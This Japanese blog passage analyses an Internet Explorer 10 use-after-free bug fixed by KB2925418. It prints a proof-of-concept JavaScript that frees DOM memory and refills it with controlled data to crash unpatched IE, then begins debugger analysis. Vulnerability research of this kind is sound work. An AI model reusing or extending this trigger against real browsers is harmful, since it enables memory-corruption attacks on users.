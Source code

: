 以下は、HDW Sec のブログに載っている JavaScript を少し単純化したものです。このコードを含む適当な HTML を書いて、Internet Explorer 10 (修正パッチである KB2925418 を含まないもの) で開くと、IE がクラッシュします。

 
```
<script> 
    function dword2data(dword) { 
        var d = Number(dword).toString(16); 
        while (d.length < 8) 
            d = '0' + d; 
        return unescape('%u' + d.substr(4, 8) + '%u' + d.substr(0, 4)); 
    }

    var g_arr = []; 
    var arrLen = 0x250;

    function fun() { 
        var a = 0; 
        for (a = 0; a < arrLen; ++a) { 
            g_arr[a] = document.createElement('div') 
        }

        var magic1 = 0xdeadc0de; 
        var magic2 = 0x12345678;

        var b = dword2data(magic1); 
        while (b.length < 0x360) { 
            b += dword2data(magic2) 
        }

        try { 
            this.outerHTML = this.outerHTML 
        } catch (e) {}

        CollectGarbage();

        for (a = 0; a < arrLen; ++a) { 
            g_arr[a].title = b.substring(0, (0x340 - 2) / 2); 
        } 
    }

     window.onload = function() { 
        var a = document.getElementsByTagName('script'); 
        var b = a[0]; 
        b.onpropertychange = fun; 
        b.appendChild(document.createElement('div')); 
    } 
</script>
```
 
デバッガーを繋いでおくと、以下のアクセス違反 (AV = Access Violation) をキャッチできます。スタックトレースから、onload から JavaScript が呼ばれて、appendChild を実行したところで AV になったことが分かります。
